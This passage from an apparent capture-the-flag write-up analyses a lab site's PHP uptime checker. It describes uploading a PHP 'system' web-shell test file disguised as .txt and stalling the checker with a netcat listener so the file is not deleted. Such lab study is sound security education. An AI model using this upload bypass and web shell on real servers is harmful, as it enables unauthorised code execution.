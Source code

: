 ```php
foreach($websites as $site) {
    $site=trim($site);
    if(!preg_match("#file://#i",$site) && !preg_match("#data://#i",$site) && !preg_match("#ftp://#i",$site)) {
	$check=isitup($site);
	if($check){
	    echo "<center>{$site}<br><font color='green'>is up ^_^</font></center>";
	} else {
	    echo "<center>{$site}<br><font color='red'>seems to be down :(</font></center>";
	}	
    } else {
	echo "<center><font color='red'>Hacking attempt was detected !</font></center>";
    }
}

# Delete the uploaded file.
@unlink($final_path);
```

So after all the checks, it:

* Uploads it to `uploads/`, under a folder by time
* Reads all the lines in the file, putting them into a list
* Queries each element of the list to see if it's up
* Deletes the file

So it seems like it expects a list of websites to check, then once that's done deletes them immediately.

Note that if the webserver **doesn't respond**, it hangs for a period of time - this is the **massive delay** we noticed right away. We can use this to our advantage and keep the server running, leaving the file up.

#### File Upload Attempt

We make a very simple `test.php`:

```php
<?php system("ls"); ?>
```

As we predicted, the server rejects the file. If we rename it to `test.txt` and try again, the upload is successful. If we go to `http://dev.siteisup.htb/uploads/`, we see the file gets deleted immediately. Let's add our own IP and see if it hangs long enough for us to actually get it:

```php
10.10.14.22
<?php system("ls"); ?>
```

Still nothing. The resposne is very quick on the original site, so it probably detected the socket was closed. If we open the socket but don't respond, for example with `netcat`, it might delay:

```bash
$ sudo nc -nvlp 80
```
